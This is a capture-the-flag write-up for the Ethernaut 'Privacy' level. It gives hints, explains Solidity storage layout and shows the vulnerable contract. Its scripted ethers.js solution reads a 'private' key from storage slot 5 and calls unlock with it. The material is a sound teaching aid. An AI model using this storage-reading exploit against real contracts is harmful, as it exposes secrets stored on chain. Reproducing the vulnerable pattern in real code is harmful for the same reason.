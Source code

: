 # 12 - Privacy

### Hints

<details>

<summary>Hint One</summary>

The trick to solving this challenge is first determining which storage slot the `data[2]` value is located in. State variables are generally assigned to storage slots in the order in which they are declared, however, certain variable types are small enough to be grouped along with their neighbors into the same slot. You will need to review the rules that determine the layout of state variables in storage.

</details>

<details>

<summary>Hint Two</summary>

Once you have retrieved `data[2]` from storage slot 5, you will need to convert it from **bytes32** to **bytes16** before using it as the `_key` to call the contract’s `unlock` function. When the larger bytes type value is converted into the smaller bytes type, which “half” of the larger value’s bytes are discarded? Left or right?

</details>

### Notes

Storage is an array of 2\*\*256 32-byte slots. Values are written into storage in the order in which they are declared. Neighboring values may be packed right-to-left into the same slot (if they fit).

When bytes32 is converted into bytes16, Solidity takes the first 16 bytes (or 32 digits in hexadecimal).

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {
    // Slot 0
    bool public locked = true; // 1 byte
    // Slot 1
    uint256 public ID = block.timestamp; // 32 bytes
    // Slot 2
    uint8 private flattening = 10; // 1 byte
    uint8 private denomination = 255; // 1 byte
    uint16 private awkwardness = uint16(now); // 2 bytes
    // Slots 3, 4, 5
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) public {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        // require _key == bytes16 in slot 5
        require(_key == bytes16(data[2]));
        locked = false;
    }

    /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

### Scripted Solution

```javascript
const fs = require('fs')
const ethers = require('ethers')
require('dotenv').config({ path: './.env' })

/**
 * Initialize Ethers objects needed to interact with the blockchain and
 * contract.
 */
async function setup(contractName) {
  // Create provider - a read-only abstraction to access blockchain data
  const provider = new ethers.providers.InfuraProvider(process.env.NETWORK)
  // Create player wallet
  const playerWallet = new ethers.Wallet(process.env.PRIVATE_KEY)
  // Create player wallet signer - an abstraction of an Ethereum account
  const playerWalletSigner = await playerWallet.connect(provider)
  // Create contract instance - an abstraction of the deployed contract code
  const contractAbi = fs.readFileSync(`./${contractName}.abi`, 'utf8')
  const contract = new ethers.Contract(
    process.env.CONTRACT_ADDRESS,
    contractAbi,
    playerWalletSigner
  )

  return { provider, playerWallet, playerWalletSigner, contract }
}

/**
 * Run contract exploit.
 */
async function main() {
  // Get Ethers objects needed to interact with the blockchain and contract
  const { provider, contract: privacyContract } = await setup('Privacy')

  // Get key from contract storage slot
  console.log('Getting key from contract storage...')
  const keySlot = 5
  const key = await provider.getStorageAt(privacyContract.address, keySlot)
  // Convert 32 byte `key` to bytes16 by taking first 34 characters of the string
  const bytes16Key = key.split('').slice(0, 34).join('')
  console.log(`Bytes16 key: ${bytes16Key}`)

  // Unlock contract by calling `unlock` with bytes16 key
  console.log('Unlocking contract with key...')
  const unlock = await privacyContract.unlock(bytes16Key)
  await unlock.wait(1)

  // // Confirm contract is unlocked
  console.log(`Contract locked: ${await privacyContract.locked()}.`)
}

main()
  .then(() => process.exit(0))
  .catch(error => {
    console.error(error)
    process.exit(1)
  })
```
